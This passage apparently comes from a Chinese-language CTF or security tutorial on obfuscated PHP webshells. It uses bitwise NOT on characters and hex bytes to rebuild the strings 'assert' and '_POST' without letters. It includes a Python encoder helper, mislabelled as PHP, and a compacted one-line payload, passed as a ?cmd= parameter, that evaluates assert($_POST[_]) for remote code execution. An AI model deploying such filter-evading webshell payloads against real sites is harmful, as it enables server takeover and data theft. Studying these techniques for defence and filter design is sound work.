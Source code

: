 在上面的学习过程中，可以知道:

```php
$_="卢";
print(~($_{1}));
print(~"\x8d");
```

这两种写法其实是等价的。所以如果把EXP中的~("欠"{1})写成~"\x8d"这种形式，可以缩减不少字符。总之我们需要知道的是，对于一个汉字进行`~($x{0})`或`~($x{1})`或`~($x{2})`的操作，可以得到某个`ascii码`的字符值，我们就可以利用这一点构造出`webshell`,给出POC:

```php
def get(shell):
    hexbit=''.join(map(lambda x: hex(~(-(256-ord(x)))),shell))
    hexbit = hexbit.replace('0x','%')
    print(hexbit)

get('assert')
get('_POST')
```

![image-20231019204126917](assets/image-20231019204126917.png)

利用这个POC，我把上面的EXP缩减为:

```php
<?php
$_ = ~"%9e%8c%8c%9a%8d%8b";   //得到assert，此时$_="assert"
$__ = ~"%a0%af%b0%ac%ab";   //得到_POST，此时$__="_POST"
$___ = $$__;   //$___=$_POST
$_($___[_]);   //assert($_POST[_])
写到一排：
?cmd=$_ = ~"%9e%8c%8c%9a%8d%8b";$__ = ~"%a0%af%b0%ac%ab";$___ = $$__;$_($___[_]);
```

![image-20231019204309205](assets/image-20231019204309205.png)
